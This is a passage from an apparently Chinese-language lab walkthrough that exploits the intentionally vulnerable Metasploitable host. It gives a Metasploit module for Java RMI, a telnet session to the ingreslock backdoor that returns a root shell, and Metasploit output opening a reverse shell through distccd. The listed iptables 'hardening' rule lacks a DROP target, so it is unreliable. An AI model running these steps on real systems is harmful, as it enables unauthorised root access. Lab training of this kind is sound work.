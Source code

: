 端口：1099

利用：

```
msf5 > use exploit/multi/misc/java_rmi_server

```



### ingreslock

后门程序，提供远程root shell连接

端口：1524

利用：

```
$ telnet 192.168.247.250 1524
Trying 192.168.247.250...
Connected to 192.168.247.250.
Escape character is '^]'.
root@metasploitable:/# whoami
root
```

加固：

```
封堵端口
iptables -I INPUT -p TCP --destination-port 1524
```

### distccd

后门程序，提供远程命令执行

端口：3632

利用：

```
msf5 exploit(unix/misc/distcc_exec) > exploit 

[*] Started reverse TCP double handler on 192.168.247.1:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 1Og0JD4yJXeNmyX6;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "1Og0JD4yJXeNmyX6\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.247.1:4444 -> 192.168.247.250:44246) at 2019-03-07 15:29:09 +0800
```
